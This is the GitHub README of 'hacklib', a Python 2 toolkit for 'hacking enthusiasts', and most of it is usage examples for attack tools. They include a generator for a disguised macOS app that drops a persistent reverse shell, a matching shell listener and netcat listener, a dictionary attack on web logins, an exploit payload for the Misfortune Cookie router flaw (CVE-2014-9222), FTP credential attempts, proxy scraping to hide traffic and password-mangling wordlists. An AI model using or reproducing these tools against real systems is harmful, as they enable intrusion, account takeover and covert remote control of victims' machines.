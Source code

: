 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

-
#### Installation
To get hacklib, simply run in command line:
```console
pip install hacklib
```
hacklib also has a user interface. To use it, you can do one of the following:

Download hacklib.py and run in console:
```console
python hacklib.py
----------------------------------------------
Hey. What can I do you for?


Enter the number corresponding to your choice.

1) Connect to a proxy
2) Target an IP or URL
3) Lan Scan
4) Exit

```
Or if you got it using pip:

```python
import hacklib
hacklib.userInterface()
```
-
#### Dependencies
Not all classes have external dependencies, but just in case you can do the following:
```python
hacklib.installDependencies()
```
-
#### Usage Examples
Reverse shell backdooring (Currently only for Macs):
```python
import hacklib

bd = hacklib.Backdoor()
# Generates an app that drops a persistent reverse shell into the system.
bd.create('127.0.0.1', 9090, 'OSX', 'Funny_Cat_Pictures')
# Takes the IP and port of the command server, the OS of the target, and the name of the .app
```
-

Shell listener (Use in conjunction with the backdoor):
```python
import hacklib
# Create instance of Server with the listening port
>>> s = hacklib.Server(9090)
>>> s.listen()
New connection ('127.0.0.1', 51101)
bash: no job control in this shell
bash-3.2$ whoami
leon
bash-3.2$ 
# Sweet!
```
In addition, you can also listen with netcat:
```
nc -l 9090
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Check for a string in the resulting page
if 'Inbox' in htmldata: print 'Login Success.'
else: print 'Login Failed.'

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
>>> proxylist = hacklib.getProxies() # scrape recently added socks proxies from the internet
>>> proxy = hacklib.Proxy()
>>> proxy.connect(proxylist) # automatically find and connect to a working proxy in proxylist
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy:
>>> urllib2.urlopen('http://icanhazip.com/').read() 
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
-
Word Mangling:

```python

from hacklib import *

word = Mangle("Test", 0, 10, 1990, 2016)

word.Leet()
word.Numbers()
word.Years()
```
Output:
```
T3$t
Test0
0Test
Test1
1Test
...snip...
Test10
10Test
Test1990
1990Test
...snip...
Test2016
2016Test

 ```
